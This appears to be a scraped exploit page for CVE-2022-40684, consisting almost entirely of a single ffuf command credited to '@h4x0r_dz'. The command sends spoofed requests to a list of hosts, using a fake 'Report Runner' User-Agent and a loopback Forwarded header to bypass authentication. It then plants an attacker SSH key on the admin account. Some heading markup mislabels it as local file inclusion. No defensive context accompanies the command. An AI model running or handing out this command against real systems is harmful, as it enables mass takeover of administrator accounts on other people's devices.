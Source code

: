 
 # CVE-2022-40684
<h3 dir="auto"><a id="user-content-local-file-inclusion" class="anchor" aria-hidden="true" href="#local-file-inclusion"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-495 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg>@h4x0r_dz</a></h3>
<blockquote>
<p dir="auto">@h4x0r_dz
</blockquote>

<table style="width: 100%;">
    <tbody>
        <tr>
            <td style="width: 100.0000%;">ffuf -w &quot;host_list.txt:URL&quot; -u &quot;<a data-fr-linked="true" href="https://URL/api/v2/cmdb/system/admin/admin">https://URL/api/v2/cmdb/system/admin/admin</a>&quot; -X PUT -H &apos;User-Agent: Report Runner&apos; -H &apos;Content-Type: application/json&apos; -H &apos;Forwarded: for=&quot;[127.0.0.1]:8000&quot;;by=&rdquo;[127.0.0.1]:9000&quot;;&apos; -d &apos;{&quot;ssh-public-key1&quot;: &quot;h4x0r&quot;}&apos; -mr &quot;SSH&quot; -r<br></td>
        </tr>
    </tbody>
</table>
